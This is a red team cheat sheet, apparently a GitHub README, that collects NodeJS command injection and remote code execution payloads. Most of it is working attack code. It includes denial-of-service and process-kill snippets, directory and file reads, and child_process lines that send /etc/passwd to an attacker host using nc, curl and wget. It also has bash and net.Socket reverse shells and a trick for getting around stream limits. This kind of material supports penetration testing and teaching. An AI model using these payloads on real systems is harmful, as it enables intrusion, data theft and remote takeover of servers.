 # NodeJS Red Team Cheat Sheet

A curated list of NodeJs Command Injection / RCE Payloads.

### Know the evil functions
`eval()`,`setTimeout()`,`setInterval()`, `Function()`, `unserialize()`

### Know your weapons
`fs` , `child_process`, `net`, `http`

`spawn` = returns a stream, returns huge binary data to Node

`exec` = returns a buffer, should be used to return status

### Attack Vectors

Denial of Service
```javascript
while(1)
```
Exit the running process
```javascript
process.exit()
```

Kill Process
```javascript
process.kill(process.pid)
```

Read current working directory
```javascript
res.end(require('fs').readdirSync('.').toString())
```

Read previous directory
```javascript
res.end(require('fs').readdirSync('..').toString())
```

Read file
```javascript
res.end(require('fs').readFileSync(fname))
```
Spawn Magic ( by [@aaditya_purani](https://twitter.com/aaditya_purani))
```javascript
require('child_process').spawn('ls',['-a']).stdout.on('data', function (data) {console.log('own'+ data); });
```
Child exec ( by [@artsploit](https://twitter.com/artsploit) )
```javascript
require('child_process').exec('cat+/etc/passwd+|+nc+attackerip+80')
```

```javascript
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/nc_host/nc_port+0>%261"')
```

```javascript
require('child_process').exec('curl+-F+"x=`cat+/etc/passwd`"+attackersip.com')
```
Wget post data (by [@brutelogic](https://twitter.com/brutelogic))
```javascript
require('child_process').exec('wget+--post-data+"x=$(cat+/etc/passwd)"+HOST')
```

Using net (by [ibreak.software](http://ibreak.software))
```javascript
var+net+=+require("net"),+sh+=+require("child_process").exec("/bin/bash");var+client+=+new+net.Socket();client.connect(80,+"attackerip",+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

Using arguments[1] as response object (by [@OrhanAlbay](https://twitter.com/OrhanAlbay))
```javascript
arguments[1].end(require('child_process').execSync('whoami'))
```
```javascript
arguments[1].end(require('child_process').execSync('cat /etc/passwd'))
```

Bypass stream limits by compressing to gzip (by @aaditya_purani)
```javascript
const pwn=require('zlib').createGzip();const inx=require('fs').createReadStream('app.json');const oux = require('fs').createWriteStream('unrestrictive.gz');inx.pipe(pwn).pipe(oux)
```

### Need More ?
Repository would be mainted time to time. Feel free to contribute.

### Contact
[@aaditya_purani](https://twitter.com/aaditya_purani)
